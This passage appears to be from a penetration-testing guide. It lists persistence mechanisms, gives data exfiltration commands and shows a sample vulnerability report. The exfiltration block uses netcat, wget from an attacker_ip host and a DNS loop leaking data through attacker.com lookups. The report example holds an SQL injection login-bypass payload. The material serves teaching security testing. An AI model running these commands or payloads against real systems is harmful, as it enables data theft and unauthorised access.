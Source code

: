 ```
.\PowerUp.ps1
```

**Persistence Mechanisms:**

**1. Linux Persistence:**

- Cron jobs
- SSH keys
- Backdoored binaries
- Init scripts
- Systemd services

**2. Windows Persistence:**

- Registry run keys
- Scheduled tasks
- Services
- DLL hijacking
- WMI event subscriptions

**Data Exfiltration Techniques:**

Bash -->

```
# Using netcat
nc -l -p 4444 > received_file.txt  # Receiver
nc target_ip 4444 < sensitive_file.txt  # Sender

# Using Python HTTP server
python3 -m http.server 8000  # Start server
wget http://attacker_ip:8000/file  # Download

# DNS exfiltration
for i in $(cat data.txt); do nslookup $i.attacker.com; done
```

#### 6. **REPORTING** 

Documenting findings and providing actionable recommendations.

##### **Report Structure:**

**1. Executive Summary**

- High-level overview for management
- Business impact analysis
- Risk ratings (Critical, High, Medium, Low)
- Key statistics and metrics

**2. Technical Details**

example report
```
## Vulnerability: SQL Injection in Login Form

### Risk Rating: Critical
### CVSS Score: 9.8

### Description:
The login form at /login.php is vulnerable to SQL injection
due to improper input sanitization.

### Proof of Concept:
Username: admin' OR '1'='1
Password: anything

### Impact:
- Complete database compromise
```